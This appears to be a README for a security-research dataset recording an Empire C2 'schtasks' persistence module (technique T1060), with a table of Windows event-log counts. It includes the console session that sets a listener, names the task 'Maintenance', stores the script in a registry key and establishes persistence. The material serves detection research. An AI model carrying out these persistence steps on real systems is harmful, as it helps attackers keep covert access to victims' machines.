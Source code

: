 
# Empire Userland Schedule Tasks

An adversary can create a registry key and scheduled task to maintain persistence in the environment.

## Technique(s) ID

T1060

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_userland_schtasks.tar.gz](./empire_userland_schtasks.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19024742

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             139 |
| Security                                 | Token Right Adjusted Events                            |             198 |
| Security                                 | Filtering Platform Connection                          |              88 |
| Security                                 | Group Membership                                       |               7 |
| Security                                 | Logoff                                                 |               7 |
| Security                                 | Logon                                                  |               7 |
| Security                                 | Special Logon                                          |               6 |
| Security                                 | File Share                                             |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | Detailed File Share                                    |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             161 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              69 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              33 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              24 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              23 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |               8 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             116 |

## Empire Activity

```
usemodule persistence/userland/schtasks
```

```
(Empire: powershell/persistence/userland/schtasks) > set Listener https
(Empire: powershell/persistence/userland/schtasks) > set TaskName Maintenance
(Empire: powershell/persistence/userland/schtasks) > info   

              Name: Invoke-Schtasks
            Module: powershell/persistence/userland/schtasks
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @mattifestation
  @harmj0y

Description:
  Persist a stager (or script) using schtasks. This has a
  moderate detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  DailyTime  False       09:00                     Daily time to trigger the script        
                                                   (HH:mm).                                
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  TaskName   True        Maintenance               Name to use for the schtask.            
  IdleTime   False                                 User idle time (in minutes) to trigger  
                                                   script.                                 
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        FD6A3MGY                  Agent to run module on.                 
  Listener   False       https                     Listener to use.                        
  RegPath    False       HKCU:\Software\Microsoft  Registry location to store the script   
                         \Windows\CurrentVersion\  code. Last element is the key name.     
                         debug                   
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/userland/schtasks) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked FD6A3MGY to run TASK_CMD_WAIT
[*] Agent FD6A3MGY tasked with task ID 11
[*] Tasked agent FD6A3MGY to run module powershell/persistence/userland/schtasks
(Empire: powershell/persistence/userland/schtasks) > SUCCESS: The scheduled task "Maintenance" has successfully been created.
Schtasks persistence established using listener https stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Maintenance daily trigger at 09:00.

(Empire: powershell/persistence/userland/schtasks) >
```